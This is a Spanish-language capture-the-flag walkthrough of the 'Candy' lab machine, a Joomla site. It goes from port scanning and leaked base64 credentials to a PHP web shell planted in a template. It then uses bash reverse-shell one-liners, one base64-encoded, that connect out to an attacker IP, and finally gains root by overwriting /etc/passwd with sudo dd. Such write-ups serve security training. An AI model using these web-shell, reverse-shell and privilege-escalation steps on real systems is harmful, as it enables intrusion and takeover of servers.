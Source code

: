 - Tags: #Candy
---
[Maquina Candy](https://mega.nz/file/WJVEnTAK#ognGlnVkavgOovj1D_AhGfQOL2ij4rsgL0Q0ueWy8vc) ==> Enlace al laboratorio.
```bash
7z x candy.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh candy.tar # Desplegamos el laboratorio
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # --> Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo.
nmap -sC -sV -p80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

#### Fase Reconocimiento Web:
**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** ==> Tenemos un servico web, Desplegado con un gestor de contenido **Joomla** 
```bash
 gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -o directoryJoomla  # Fuzzeamos por directorios
```

**( http://172.17.0.2/index.php )** ==> Tenemos la web principal
**( http://172.17.0.2/administrator/ )** ==> Tenemos un panel de administracion, Con un posible usuario filtrado, **( luisillo )**

```bash
wfuzz -c --hw 364 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=test" # Fuzzeamos por posibles parametros
# ( tmpl ) -> Tenemos un parametro valido
# ( %co ) -> Tenemos otro parametro valido
```

**Nota** ==> Usamos la herramienta **( joomscan )** para realizar un escaneo exhaustivo a le gestor de contenido **CMSJoomla** que nos reporta lo siguiente critico:
```bash
[+] Checking robots.txt existing, [++] robots.txt is found
path : http://172.17.0.2/robots.txt # En esta encontramos las mismas credenciales filtradas, en base64

http://172.17.0.2/un_caramelo # Tenemos Una ruta potencial
```

**( admin:c2FubHVpczEyMzQ1 )** ==> Estas con las credenciales filtradas a la cual decodificaremos para obtenerla en texto plano.

```bash
echo -n "c2FubHVpczEyMzQ1" | base64 -d
sanluis12345 # Credencial en texto plano
```

#### Fase Intrusion:
```bash
username: admin
password: sanluis12345
```

Ahora estamos conectados buscaremos la manera de aconteser un fallo de seguridad.
**( System > Side Templates > Template > Index.php )** ==> Estando desde el panel de administracion, ingresamos a esta ruta para modificar el **index.php** inyectando esta instruccion en el archivo para poder cargar una instruccion a nivel de sistema que nos permita tomar acceso al servidor.
```bash
<?php system($_GET['cmd']) ?>
```

Una ves guardado el archivo procedemos a intentar carga comandos en la maquina"
```bash
view-source:http://172.17.0.2/?shadow=whoami # Logramos ejecutar comandos.
```

#### Fase Intrusion:
```bash
nc -nlvp 443
```

```bash
/?shadow=bash+-c+'exec+bash+-i+%26>/dev/tcp/192.168.100.22/443+<%261' # Ejecutamos el siguiente onLiner para tomar acceso desde burpsuite con la peticion interceptada.
```

#### Fase Escalada Privilegios:
**( www-data )** ==> Estamos logueados como este usuario tendremos que ver como elevar privilegios

```bash
# Tenemos credenciales para un usuario en la base de datos que podemos intentar ver.
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'joomla_user';
public $password = 'luisillo123456';
public $db = 'joomla_db';

mysql -u joomla_user -p # despues proporcionamos la password
```

```bash
select username, password from umo54_users; # Filtramos por usuarios
admin    | $2y$10$f/d0sy442VzLXyaUhSmmOu.FBRYed2afncJFmYkuJwRwsJQoaGYbW # Tenemos un hash que tendremos que aplicar fuerza bruta.
```

**Nota** ==> Luego, crearemos una reverse shell y la convertiremos a Base64 usando el siguiente comando:
`echo "sh -i >& /dev/tcp/172.16.1.131/443 0>&1" | base64`

Esto generará una cadena en Base64 como la siguiente:
`c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`

Ahora, inyectaremos esta cadena en el parámetro `shadow` de la siguiente manera:
`http://172.17.0.2/?shadow=echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo= | base64 -d | bash`

Esto decodificará la reverse shell y la ejecutará en el servidor, estableciendo una conexión con nuestra máquina atacante en la IP `172.16.1.131` y el puerto `443`.

Buscaremos por archivos **.txt**
```bash
find / -type f -iname "*.txt" 2>/dev/null # Filtramos por los que acaben en txt
/var/backups/hidden/otro_caramelo.txt # Encontramos este
```

Ahora tenemos nuevas credenciales de acceso, Pero las usaremos para migrar al usaurio **luisillo**
```bash
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';
```

**( su luisillo )** ==> Despues proporcionamos la password: **( luisillosuperpassword )**

```bash
sudo -l
User luisillo may run the following commands on 799f3d7967f3:
    (ALL) NOPASSWD: /bin/dd # Tenemos una via potencial de sobreescribir el archivo /etc/passwd
```

#### Explitacion
```bash
cat /etc/passwd > passwdBackup
openssl passwd # Ejecutamos este para generar una password. que despues inyectaremos en nuestro passwdBackup
$1$ZJslVBID$were/CYIwYa1ex/T1n4.j. # Nos genero esta password

root:$1$ZJslVBID$were/CYIwYa1ex/T1n4.j.:0:0:root:/root:/bin/bash # Modificamos el archivo para que quede asi inyectado nuestra nueva password.
cat passwdBackup  | sudo -u root /bin/dd of=/etc/passwd # Sobreescribimos el archivo.

source .bashrc
su root # Proporcionamos la nueva password que nosotros definimos. y estemos logueados como root.
```